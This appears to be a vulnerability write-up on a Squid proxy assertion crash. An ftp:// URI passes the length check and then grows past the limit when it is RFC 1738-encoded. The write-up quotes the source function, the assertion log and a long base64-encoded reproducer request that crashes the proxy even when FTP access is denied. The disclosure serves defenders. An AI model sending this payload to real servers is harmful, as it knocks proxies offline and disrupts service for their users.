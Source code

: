 # FTP URI Assertion
FTP (File Transfer Protocol) is a 50-year-old protocol which is used for the transfer of files across networks. Unlike HTTP, FTP is stateful, meaning that (generally) a connection is held open for multiple file transfers rather than a single file. Likewise, unlike HTTP which generally requires sending a single request, FTP uses multiple commands and responses which must be dealt with before any file transfer actually happens.
There are some interesting features of FTP which go beyond the scope of this post, however the tunneling or proxying of FTP through HTTP is an interesting topic worth reading more about, especially how to *efficiently* deal with each command and response.

Squid is able to act as both a [native FTP relay](https://wiki.squid-cache.org/Features/FtpRelay), and a proxy. In the latter case, bridging an HTTP-user to an FTP-server.  In the former case, a client can send an *FTP* command to Squid, which squid interprets (and actually converts to HTTP, then re-converts to FTP), and subsequently sends it to the destination FTP server. The reply is eventually sent back to the client.

## The Issue
When a client requests a page using the `ftp://` scheme, Squid checks the URI's length to see if it is too long to handle (65535-bytes). However, this check is done too early, and requests which correspond to `ftp://` links are encoded using the method set forth in RFC 1738.
For example, the octal `\347` is encoded to `%FFFFFFE7`(aka `\xE7`). The issue here is that a single-byte character may be expanded to 9-bytes. Therefore, a link of 7282-bytes long will be expanded to 65538-byte.
Squid is unable to process such large URIs, and will assert if such a request is made.

The specifics are uninteresting, but the general issue is due to the function `AnyP::Uri::absolute` being used to set the URI of a request after a check of the URI's length has already been made. We can see what `AnyP::Uri::absolute` does:
```
SBuf &
AnyP::Uri::absolute() const
{   
    if (absolute_.isEmpty()) {
        // TODO: most URL will be much shorter, avoid allocating this much
        absolute_.reserveCapacity(MAX_URL);

        absolute_.append(getScheme().image());
        absolute_.append(":",1);
        if (getScheme() != AnyP::PROTO_URN) {
            absolute_.append("//", 2);
            const bool allowUserInfo = getScheme() == AnyP::PROTO_FTP ||
                                       getScheme() == AnyP::PROTO_UNKNOWN;

            if (allowUserInfo && !userInfo().isEmpty()) {
                static const CharacterSet uiChars = CharacterSet(UserInfoChars())
                                                    .remove('%')
                                                    .rename("userinfo-reserved");
                absolute_.append(Encode(userInfo(), uiChars));
                absolute_.append("@", 1);
            }
            absolute_.append(authority());
            [...]
```
Specifically, if the request is an FTP request, the `Encode` function is called, which does RFC 1738-type encoding.


A reproducer is given **base64-encoded**.
(**Note: This does NOT require Squid to even be enabled to proxy FTP links, and even with the configuration** 
```
acl ftp proto FTP
http_access deny ftp
```
**this crash will occur**).

The following request will cause an assertion:
```
2021/04/20 02:16:17.334| 85,3| client_side_reply.cc(1614) identifyFoundObject: StoreEntry is NULL -  MISS
2021/04/20 02:16:17.334| 88,4| client_side_reply.cc(729) processMiss: GET [extremely long URI]
2021/04/20 02:16:17.343| 20,3| store.cc(767) storeCreatePureEntry: storeCreateEntry: [extremely long URI]
2021/04/20 02:16:17.354| 20,5| store.cc(368) StoreEntry: StoreEntry constructed, this=0x60c000047c80
2021/04/20 02:16:17.354| 20,3| MemObject.cc(100) MemObject: MemObject constructed, this=0x613000009dc0
2021/04/20 02:16:17.355| assertion failed: String.cc:37: "aSize <= SizeMax_"
    current master transaction: master53
```

```
R0VUIGZ0cDovLzAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDDNwbAwMDDn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fnMDAw5+fn5+fn5+fn5+fn5+fnMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDDn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5/fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+ff39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/n5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fnMDAwMDAwMDAwMDAwMDAwMOfn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fnMDAwMJBAMD8wMDAwMDAwCg==
```
